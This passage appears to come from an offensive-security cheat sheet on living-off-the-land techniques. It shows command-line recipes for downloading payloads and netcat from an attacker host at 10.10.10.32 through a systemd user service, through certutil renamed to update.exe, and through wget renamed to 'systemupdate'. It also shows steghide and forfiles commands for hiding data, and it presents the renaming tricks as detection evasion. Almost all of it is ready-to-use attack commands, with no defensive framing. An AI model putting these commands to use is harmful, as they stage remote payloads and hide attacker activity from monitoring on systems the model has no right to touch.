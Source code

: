 **Create Service for File Transfer:**
```bash
# Create service file
cat > /tmp/download.service << EOF
[Unit]
Description=Download Service

[Service]
Type=oneshot
ExecStart=/bin/bash -c 'curl -o /tmp/payload http://10.10.10.32:8000/payload'

[Install]
WantedBy=multi-user.target
EOF

# Run service
systemctl --user daemon-reload
systemctl --user start download.service
```

## Steganography with LOLBins

### Hide Data in Images

**Windows - Using forfiles:**
```cmd
# Hide data in image metadata
forfiles /p C:\temp /m *.jpg /c "cmd /c echo secret_data >> @file:metadata"
```

**Linux - Using steghide:**
```bash
# Hide file in image
steghide embed -cf cover.jpg -ef secret.txt -p password123

# Extract file from image
steghide extract -sf cover.jpg -p password123
```

## Detection Evasion Techniques

### Rename Binaries

**Windows:**
```cmd
# Copy and rename suspicious binaries
copy C:\Windows\System32\certutil.exe C:\temp\update.exe
update.exe -urlcache -split -f http://10.10.10.32:8000/nc.exe
```

**Linux:**
```bash
# Copy and rename binaries
cp /usr/bin/wget /tmp/systemupdate
/tmp/systemupdate http://10.10.10.32:8000/payload
```
